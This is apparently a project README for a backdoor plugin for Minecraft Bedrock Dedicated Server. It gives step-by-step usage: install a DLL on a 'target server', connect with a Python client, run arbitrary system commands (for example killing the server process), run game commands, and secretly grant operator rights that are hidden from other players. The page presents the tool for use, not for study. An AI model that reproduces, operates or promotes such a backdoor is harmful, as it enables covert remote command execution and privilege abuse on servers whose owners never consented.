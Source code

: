 # backdoor

A backdoor plugin for Bedrock Dedicated Server

## Usage
1. install ``backdoor.dll`` to the target server
2. Use the backdoor client ``client.py`` for remote control after the target server is opened.

## Run the backdoor client
After installing Python, run the program from the command line with the following command:

```
python client.py
```

Enter the server IP and port
When you start the program, you will be prompted to enter the IP address and port number of the server in the format IP address port number (e.g. 127.0.0.1 19132)

Example:

```
Please input server ip:port like 127.0.0.1 19132
114.51.41.91 9810
```

Client Functions
The client program has the following functions:

``scmd [cmd]`` - executes system commands
``gcmd [cmd]`` - executes game commands
``perm [player name: case sensitive] [level: 0~3] [0: client hide change | 1: client show change]`` - set player permission level
``q`` - Quit the program

Please enter the appropriate command to perform the appropriate action as needed. For example, to execute the game command ``kick WillowSauceR``, enter the following command:

```
>>> gcmd kick WillowSauceR
```

Execute the system command ``taskkill /F /IM bedrock_server.exe``
```
>>> scmd taskkill /F /IM bedrock_server.exe
```

Set permissions for players in the game
Permission level: 0 for normal players, greater than 0 for OP
Show/hide: hide permission changes from other players and yourself, not discoverable within the game
The following command sets OP permissions for player ``WillowSauceR`` and hides it from other players
```
>>> perm WillowSauceR 1 0
```

To exit the program, enter the following command:

```
>>> q
```
